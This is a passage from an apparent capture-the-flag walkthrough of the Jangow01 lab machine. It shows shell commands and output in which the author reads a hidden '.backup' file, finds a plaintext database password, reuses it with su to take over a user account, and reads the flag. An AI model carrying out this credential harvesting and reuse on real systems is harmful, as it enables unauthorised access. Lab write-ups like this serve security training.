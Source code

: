```bash
www-data@jangow01:/var/www/html/site$ ls -la
total 40
drwxr-xr-x 6 www-data www-data  4096 Jun 10  2021 .
drwxr-xr-x 3 root     root      4096 Oct 31 19:36 ..
drwxr-xr-x 3 www-data www-data  4096 Jun  3  2021 assets
-rw-r--r-- 1 www-data www-data    35 Jun 10  2021 busque.php
drwxr-xr-x 2 www-data www-data  4096 Jun  3  2021 css
-rw-r--r-- 1 www-data www-data 10190 Jun 10  2021 index.html
drwxr-xr-x 2 www-data www-data  4096 Jun  3  2021 js
drwxr-xr-x 2 www-data www-data  4096 Jun 10  2021 wordpress
www-data@jangow01:/var/www/html/site$ ls -la wordpress/
total 24
drwxr-xr-x 2 www-data www-data  4096 Jun 10  2021 .
drwxr-xr-x 6 www-data www-data  4096 Jun 10  2021 ..
-rw-r--r-- 1 www-data www-data   347 Jun 10  2021 config.php
-rw-r--r-- 1 www-data www-data 10190 Jun 10  2021 index.html
www-data@jangow01:/var/www/html/site$ ls -la ../
total 16
drwxr-xr-x 3 root     root     4096 Oct 31 19:36 .
drwxr-xr-x 3 root     root     4096 Oct 31 19:33 ..
-rw-r--r-- 1 www-data www-data  336 Oct 31 19:36 .backup
drwxr-xr-x 6 www-data www-data 4096 Jun 10  2021 site
www-data@jangow01:/var/www/html/site$ cat ../.backup
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

Some quick searching reveals a `.backup` file that appears to contain some credentials. Maybe we can `su` to `jangow01`?

```bash
www-data@jangow01:/var/www/html/site$ su jangow01
Password:
jangow01@jangow01:/var/www/html/site$ whoami
jangow01
```

Success! Now we can grab the `user` flag.

```bash
jangow01@jangow01:/var/www/html/site$ cd
jangow01@jangow01:~$ ls -la
total 36
drwxr-xr-x 4 jangow01 desafio02 4096 Jun 10  2021 .
drwxr-xr-x 3 root     root      4096 Out 31 19:04 ..
-rw------- 1 jangow01 desafio02  200 Out 31 19:39 .bash_history
-rw-r--r-- 1 jangow01 desafio02  220 Jun 10  2021 .bash_logout
-rw-r--r-- 1 jangow01 desafio02 3771 Jun 10  2021 .bashrc
drwx------ 2 jangow01 desafio02 4096 Jun 10  2021 .cache
drwxrwxr-x 2 jangow01 desafio02 4096 Jun 10  2021 .nano
-rw-r--r-- 1 jangow01 desafio02  655 Jun 10  2021 .profile
-rw-r--r-- 1 jangow01 desafio02    0 Jun 10  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 jangow01 desafio02   33 Jun 10  2021 user.txt
jangow01@jangow01:~$ cat user.txt
d41d8cd98f00b204e9800998ecf8427e
```